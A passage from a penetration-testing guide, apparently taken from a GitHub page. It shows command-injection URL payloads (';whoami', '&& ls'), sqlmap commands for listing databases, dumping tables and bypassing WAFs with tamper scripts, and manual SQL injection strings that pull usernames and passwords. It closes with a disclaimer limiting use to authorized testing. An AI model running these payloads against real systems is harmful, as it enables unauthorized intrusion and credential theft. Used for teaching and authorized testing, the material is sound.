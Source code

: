      ```url
     http://example.com/ping?ip=8.8.8.8;whoami
     ```

3. **Chaining Commands**:
   - Use `&&` to chain commands or redirect output, e.g., `http://example.com/ping?ip=8.8.8.8 && ls`.

---

## SQL Injection

SQL Injection (SQLi) vulnerabilities allow attackers to manipulate the SQL queries used by the application.

### SQL Injection Testing with SQLMap

1. **Run SQLMap for Automated Testing**:
   - Basic SQLMap command:

     ```bash
     sqlmap -u "http://example.com/item?id=1" --dbs
     ```

   - **Options**:
     - `--tables`: List tables in a specific database.
     - `--dump`: Dump data from a table.

2. **Bypass WAFs and Filters**:
   - Use tamper scripts in SQLMap, e.g., `sqlmap -u "http://example.com/item?id=1" --dbs --tamper=space2comment`.

3. **Manual SQLi with Burp Suite**:
   - Intercept a request in Burp Proxy,

 send it to Repeater, and try different payloads:
     - `' OR '1'='1`
     - `UNION SELECT null, username, password FROM users--`

4. **Blind SQL Injection**:
   - SQLMap can be configured for Boolean-based blind SQLi, e.g., `sqlmap -u "http://example.com/item?id=1" --level 5 --risk 3`.

---

## Disclaimer

This guide is intended for ethical penetration testing engagements where explicit permissions have been granted. Unauthorized testing without consent is illegal and unethical. Always follow applicable laws and regulations.

